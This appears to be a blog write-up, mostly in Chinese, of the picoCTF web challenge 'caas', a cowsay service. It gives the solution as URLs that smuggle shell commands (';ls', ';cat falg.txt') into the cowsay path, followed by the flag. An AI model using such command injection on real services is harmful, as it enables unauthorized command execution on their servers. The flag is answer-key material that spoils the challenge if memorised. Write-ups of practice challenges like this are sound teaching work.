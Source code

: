 ```yaml
---
layout: post
title:  "picoCTF - caas"
description: 
date:   2023-12-26 11:10:00 +0800
# last_modified_at:
categories: [CTF, picoCTF-Web Exploitation]
author: d13
tags: [ctf, web exploitation, picoctf]
---
```


## Question

[https://caas.mars.picoctf.net/cowsay/Hello%20World](https://caas.mars.picoctf.net/cowsay/Hello%20World)

## Solution

下載下來的js就是這個網站的服務呼叫方式，簡單來說就是呼叫他的api配上參數，會幫你印出一隻講出你參數的牛。

```tex
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

那應該就是要靠injection了，研究了下那個js，試著用單引號或分號的去看看不能不讀取目錄，最後成功找到injection方式跟儲存flag的記事本：
`https://caas.mars.picoctf.net/cowsay/test;ls`
`https://caas.mars.picoctf.net/cowsay/test;cat%20falg.txt`

## Flag

picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}

